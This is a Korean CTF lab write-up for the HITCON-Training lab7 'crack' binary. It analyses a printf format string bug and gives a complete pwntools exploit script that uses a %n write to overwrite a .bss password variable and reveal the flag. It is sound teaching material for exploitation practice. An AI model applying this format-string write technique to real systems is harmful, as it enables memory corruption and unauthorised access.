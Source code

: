 # 문제
***
crack 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

crack 바이너리의 file 명령어 결과는 다음과 같다.
```
crack: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=66ea82f29539f0da4643036bca734fcd9b4791f9, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
...
  v3 = time(0);
  srand(v3);
  fd = open("/dev/urandom", 0);
  read(fd, &password, 4u);
  printf("What your name ? ");
  read(0, &buf, 0x63u);
  printf("Hello ,");
  printf(&buf);
  printf("Your password :");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == password )
  {
    puts("Congrt!!");
    system("cat /home/crack/flag");
  }
  else
  {
    puts("Goodbyte");
  }
  return 0;
}
```

=> /dev/urandom에서 읽어온 4byte 랜덤값이 내 입력값과 같으면 flag를 읽어준다. 이 랜덤값을 알아내는 것은 불가능하다.
하지만 그 전에 buf의 내용을 printf 하는 곳에서 format string bug가 존재한다. 이를 이용해서 bss 영역에 존재하는 password 변수에 저장되어 있는 값을 덮어쓸 수 있다.

## exploit 방법

printf(&buf)를 하는 시점에서 esp의 위치와 스택을 살펴보았다. 

1. 스택을 보면 read의 인자로 push 되었던 password의 주소는 다른 값으로 덮어 쓰여져서 보이지 않는다. 

2. 이 때 esp 값은 0xffffcf80 이고 buf의 주소는 0xffffcfa8이다. 따라서 buf에 &password+"%08x"*10을 저장하면 마지막에 password의 주소가 출력되는 것을 확인할 수 있다.

따라서 buf에 &password + "%08x" * 8 + "%32d" + "%n" 을 하면 password에 100을 넣을 수 있다.

# 풀이 
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/HITCON-Training/LAB/lab7/crack"

p=process(file_path)

p.recvuntil("name ? ")

password=0x804a048

pay=p32(password)
pay+="%08x"*8+"%32d"+"%n"

p.send(pay)

p.recvuntil("Hello ,")
p.recvuntil("password :")

p.send(str(100))

p.recvuntil("!!\n")

print p.recv()
```
# 알게 된 것
***

1. ```int a=100;```
   ```printf("%2d",a);```
이렇게 하면 100이 출력된다. 그래서 위의 문제에서 %6d의 결과로 6개의 글자가 출력되지 않고 더 긴 값이 출력되었다. 
2. %n을 통해 덮어쓸 값이 매우 크면 printf를 통해서 매우 긴 문자열을 출력해야 한다. 이런 경우에 문자열이 너무 길어서 출력을 못하는 경우가 있는데 이럴 때는 %hn을 이용해야 한다. 

3. %08x를 하면 공백 대신에 0이 채워지는데 사실 공백도 출력 개수에 포함되기 때문에 %8x를 써도 된다. 하지만 %08x를 하면 4byte이기 때문에 메모리 offset을 맞춰주기 편한듯?

